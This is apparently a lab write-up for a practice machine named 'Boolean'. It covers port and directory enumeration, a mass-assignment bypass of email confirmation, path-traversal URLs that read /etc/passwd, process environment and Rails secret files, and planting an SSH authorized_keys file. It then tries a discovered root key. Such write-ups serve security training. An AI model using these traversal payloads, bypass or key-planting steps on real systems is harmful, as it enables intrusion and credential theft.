Difficulty: Intermediate
Environment Setup
export IP=192.168.126.231
export URL=http://$IP
Service Enumeration
nmap --privileged -sC -sV -T4 -Pn -p22,80,33017 -oA full_tcp $IP
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
| 2048 37:80:01:4a:43:86:30:c9:79:e7:fb:7f:3b:a4:1e:dd (RSA)
| 256 b6:18:a1:e1:98:fb:6c:c6:87:55:45:10:c6:d4:45:b9 (ECDSA)
|_ 256 ab:8f:2d:e8:a2:04:e7:b7:65:d3:fe:5e:93:1e:03:67 (ED25519)
80/tcp open http
| http-title: Boolean
|_Requested resource was http://192.168.126.231/login
| fingerprint-strings:
| DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns:
| HTTP/1.1 400 Bad Request
| FourOhFourRequest, GetRequest, HTTPOptions:
| HTTP/1.0 403 Forbidden
| Content-Type: text/html; charset=UTF-8
|_ Content-Length: 0
33017/tcp open http Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Development
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.95%I=7%D=7/14%Time=68759C35%P=x86_64-pc-linux-gnu%r(GetR
SF:equest,55,"HTTP/1\.0\x20403\x20Forbidden\r\nContent-Type:\x20text/html;
SF:\x20charset=UTF-8\r\nContent-Length:\x200\r\n\r\n")%r(HTTPOptions,55,"H
SF:TTP/1\.0\x20403\x20Forbidden\r\nContent-Type:\x20text/html;\x20charset=
SF:UTF-8\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,1C,"HTTP/1\.1\x20
SF:400\x20Bad\x20Request\r\n\r\n")%r(X11Probe,1C,"HTTP/1\.1\x20400\x20Bad\
SF:x20Request\r\n\r\n")%r(FourOhFourRequest,55,"HTTP/1\.0\x20403\x20Forbid
SF:den\r\nContent-Type:\x20text/html;\x20charset=UTF-8\r\nContent-Length:\
SF:x200\r\n\r\n")%r(GenericLines,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:n\r\n")%r(RPCCheck,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(D
SF:NSVersionBindReqTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(
SF:DNSStatusRequestTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(
SF:Help,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SSLSessionReq,1
SF:C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TerminalServerCookie,
SF:1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TLSSessionReq,1C,"HT
SF:TP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(Kerberos,1C,"HTTP/1\.1\x20
SF:400\x20Bad\x20Request\r\n\r\n")%r(SMBProgNeg,1C,"HTTP/1\.1\x20400\x20Ba
SF:d\x20Request\r\n\r\n")%r(LPDString,1C,"HTTP/1\.1\x20400\x20Bad\x20Reque
SF:st\r\n\r\n")%r(LDAPSearchReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n
SF:\r\n")%r(LDAPBindReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r
SF:(SIPOptions,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(LANDesk-
SF:RC,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TerminalServer,1C
SF:,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(NCP,1C,"HTTP/1\.1\x204
SF:00\x20Bad\x20Request\r\n\r\n")%r(NotesRPC,1C,"HTTP/1\.1\x20400\x20Bad\x
SF:20Request\r\n\r\n")%r(JavaRMI,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:n\r\n")%r(WMSRequest,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r
SF:(oracle-tns,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(ms-sql-s
SF:,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(afp,1C,"HTTP/1\.1\x
SF:20400\x20Bad\x20Request\r\n\r\n")%r(giop,1C,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Port 33017 - HTTP (Not needed)

Just a blank page with text and “We’re not” in an HTML comment…
Since nmap saw this is Apache 2.4.38, I decided to look into CVEs for this version and found a privilege escalation exploit, EDB 46676. I will keep this in mind to investigate after gaining initial access.

Brute forcing directories again reveals some interesting-sounding pages that we mostly don’t have access to:
admin [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 107ms]
.htpasswd [Status: 403, Size: 283, Words: 20, Lines: 10, Duration: 5301ms]
[Status: 200, Size: 189, Words: 21, Lines: 10, Duration: 6305ms]
cgi-bin [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 101ms]
cgi-bin/ [Status: 403, Size: 283, Words: 20, Lines: 10, Duration: 132ms]
.htaccess [Status: 403, Size: 283, Words: 20, Lines: 10, Duration: 98ms]
.hta [Status: 403, Size: 283, Words: 20, Lines: 10, Duration: 324ms]
index.php [Status: 200, Size: 189, Words: 21, Lines: 10, Duration: 116ms]
info [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 106ms]
server-status [Status: 403, Size: 283, Words: 20, Lines: 10, Duration: 118ms]
Port 80 - HTTP
Redirects us to /login.

We discover some pages by brute forcing endpoints, but none of them are actually useful:
ffuf -u $URL/FUZZ -w /usr/share/wordlists/dirb/common.txt
404 [Status: 200, Size: 1722, Words: 310, Lines: 68, Duration: 124ms]
500 [Status: 200, Size: 1635, Words: 289, Lines: 67, Duration: 128ms]
favicon.ico [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 126ms]
filemanager [Status: 302, Size: 94, Words: 5, Lines: 1, Duration: 116ms]
login [Status: 200, Size: 2413, Words: 452, Lines: 59, Duration: 139ms]
register [Status: 200, Size: 2765, Words: 548, Lines: 66, Duration: 154ms]
robots.txt [Status: 200, Size: 99, Words: 12, Lines: 2, Duration: 109ms]
- 404 is a generic 404 redirect page for Ruby on Rails (“Ruby” appears in the page’s source, and this agrees with wappalyzer’s guess.)
- 500 is another redirect page
- filemanager redirects to /login
- robots.txt doesn’t contain anything useful
Line 50 of the /login page source (the line below “The Only True Free Storage”) contains an interesting HTML comment:
<!-- The only True wisdom is in knowing you know nothing -->
I tried a few common user/password combinations but was unable to get in. I’ll create an account to explore the application further.
Bypassing email verification
When trying to sign in, it prompts us again to check email for a verification code.
After editing edit and confirming the email, the response contains a JSON object that caught my attention.


There is a variable “confirmed” which is marked as false. By copying the syntax of the other variables included in the patch request, we can actually append &user%5Bconfirmed%5D=true to update the confirmed variable to true. Then returning to /, we’re signed in!


I’ll grab my session cookie and start another directory brute force (didn’t find anything new)
ffuf -u $URL/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -b '_boolean_session=MORkJifOsYCOg43S8bNhUSibVrLMG073KoIZr
g%2BHa8kU3trvOKZsnxVNfpg%2BfACVhXbHRfRBcLSYc1h6XA9DRJvom7nTwMqHpuIFOw1fS7%2BI4p2%2F7rv9swkSgUTGaZY9w3WxKeQEuBlbX4Nbc1MWZEASb%2BDZgXwG9Jy9aXtG70P
otBhR0e78MfSGrA5S3a0arDrUELQB0DoDW0fk%2FR66WaHDcpgYkLF9v6lUohQh9XK%2BYDnqwuN6wM2ygT9qyASSdjK%2FMp699ubykKSgvkcFC2NThV6GT6cVAcnB5XpVoezExHhSINpoC
Q%3D%3D--v3JROaxJm1rU1Gpc--uqoJttvIG30FdUwDaA1a8A%3D%3D'
Tinkering with the URL, I found that the file manager is vulnerable to LFI via the cwd and file URL parameters — we can download /etc/passwd at:
http://192.168.126.231/?cwd=../../../../../../../../etc/&file=passwd&download=true
It change to http://192.168.126.231/?cwd=&file=../../../../../../../../etc/passwd&download=true after, but only the first URL specifies the directory and downloads the file correctly.
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
remi:x:1000:1000::/home/remi:/bin/bash
mysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/false
Testing common Ruby and environment files for LFI:
http://192.168.126.231/?cwd=../../../../../../../../var/www/boolean/config/&file=database.yml&download=truehttp://192.168.126.231/?cwd=../../../../../../../../var/www/boolean/config/&file=master.key&download=truehttp://192.168.126.231/?cwd=../../../../../../../../var/www/boolean/config/&file=credentials.yml.enc&download=truehttp://192.168.126.231/?cwd=../../../../../../../../proc/self&file=environ&download=trueLANG=en_US.UTF-8�PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin�HOME=/home/remi�LOGNAME=remi�USER=remi�SHELL=/bin/bash�INVOCATION_ID=12ce1e010e1146f487f1c27b3f727702�JOURNAL_STREAM=9:17708�WEB_CONCURRENCY=2�RAILS_MAX_THREADS=100�RAILS_ENV=development�
http://192.168.126.231/?cwd=../../../../../../../../proc/self&file=environ&download=truepuma: cluster worker 1: 832 [boolean]������������������������������������������������������������������
Initial Access via SSH authorized_keys File Upload
I finally realized we’re actually able to list directories as well, by specifying it as the file name. This would have saved me a lot of trouble of just guessing files blindly… We can use this to list /home/remi/.ssh:
http://192.168.126.231/?cwd=../../../../../../../../home/remi&file=.ssh&download=true

In .ssh/keys there is a private key simply named root, but using it to try connecting as root still prompts for password. Perhaps we can use this after connecting as privilege escalation.
Still, since we’re able to upload to this location, we can create an SSH key and upload an authorized_keys file permitting our key for remi.
ssh-keygen
cat ~/.ssh/id_ed25519.pub > authorized_keys
(upload authorized_keys to /home/remi/.ssh/authorized_keys on target)

First flag is in /home/remi/local.txt.
Privilege Escalation
ssh root@localhost -i root
Received disconnect from 127.0.0.1 port 22:2: Too many authentication failures
Disconnected from 127.0.0.1 port 22
I learned that -i only adds a key to OpenSSH client’s identities, it doesn’t tell it to ONLY use that one. Because of this, each time I tried connecting, it would try to use the 3 id keys in /home/remi/.ssh/keys and fail before using root. The solution is to use -o IdentitiesOnly=yes which prevents the cilent from trying its other identities.
